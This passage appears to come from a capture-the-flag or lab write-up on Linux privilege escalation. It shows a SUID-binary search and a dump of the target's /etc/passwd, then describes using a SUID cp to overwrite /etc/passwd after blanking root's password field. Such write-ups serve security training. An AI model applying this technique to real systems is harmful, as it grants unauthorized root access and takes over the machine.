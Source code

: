 I then manually verified the SUID bit by running find / -perm -u=s -type f 2>/dev/null in which /usr/bin/cp appeared again

With assistance from this [article](https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/) I exploited a privilege escalaton root that uses the 'cp' binary 
to replacing the current /etc/passwd file on the target host with our own manipulated passwd file to either add a user account with root privileges or remove the root accounts password altogether

I started by displaying the current /etc/passwd file on the target host as shown below, then created a copy locally on my attack machine

~~~shell
sh-5.0$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
systemd-timesync:x:998:996:systemd Time Synchronization:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
unbound:x:997:994:Unbound DNS resolver:/etc/unbound:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
chrony:x:996:993::/var/lib/chrony:/sbin/nologin
benjamin:x:1000:1000::/home/benjamin:/bin/bash
mongod:x:995:992:mongod:/var/lib/mongo:/bin/false
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
nginx:x:994:991:Nginx web server:/var/lib/nginx:/sbin/nologin
~~~

After creating the copy I manipulated the root account parameters and removed the 'x' parameter in the root user account which represents the root's password

![Dibble](/assets/img/DibblePG(12).png)